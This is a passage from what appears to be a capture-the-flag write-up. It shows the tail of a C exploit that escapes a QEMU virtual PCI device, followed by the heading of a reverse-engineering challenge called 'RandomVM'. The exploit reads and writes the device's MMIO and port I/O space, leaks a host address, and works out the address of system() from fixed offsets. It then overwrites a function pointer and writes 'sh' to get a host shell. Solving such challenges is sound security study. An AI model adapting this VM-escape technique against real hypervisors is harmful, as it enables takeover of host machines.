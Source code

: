 ```php
}

uint64_t pmio_read(uint64_t addr){
    return (uint64_t)inl((uint64_t)addr+(uint64_t)pmio_base);
}

int main(){

    setbuf(stdout,0);
    setbuf(stdin,0);
    setbuf(stderr,0);
    if (iopl(3) < 0) {
        printf("failed to change i/o privilege! no root?");
    }
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0",O_RDWR | O_SYNC);
    if(mmio_fd==-1){  perror("mmio failed");exit(-1);  }
    mmio_mem = mmap(0,0x1000,PROT_READ | PROT_WRITE, MAP_SHARED,mmio_fd,0);     //mmap mmio space
    if(mmio_mem == MAP_FAILED){ perror("map mmio failed");exit(-1);}
    printf("addr of mmio:%p\n",mmio_mem);

    mmio_write(0x80,0xff);
    size_t leak=mmio_read(0x15);
    printf("leak: 0x%lx\n",leak);
    size_t system_addr=leak+0x782dcc850d70-0x782dcc846780;
    printf("system: 0x%lx\n",system_addr);

    mmio_write(0x50,666);
    size_t may_666=pmio_read(0x50);
    printf("may 666: %lu\n",may_666);
    mmio_write(0x80,0xff-0x35-6);
    pmio_write(0x50,system_addr);
    mmio_write(0x80,0xff-0x35+4-6);
    pmio_write(0x50,system_addr>>32);
    mmio_write(0x80,0xff-0x35);
    size_t leak_system=mmio_read(0x50);
    printf("leak_system: 0x%lx\n",leak_system);
    mmio_write(0x40,0x6873);

    return 0;
}
```

0x03 Re
-------

### RandomVM

> The days that you can easily dump or patch my VM code are over. If you want it, then you have to take it.

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714318024856-a36bd152-c3ec-4ecc-ac4f-805bf6bf6008.png)
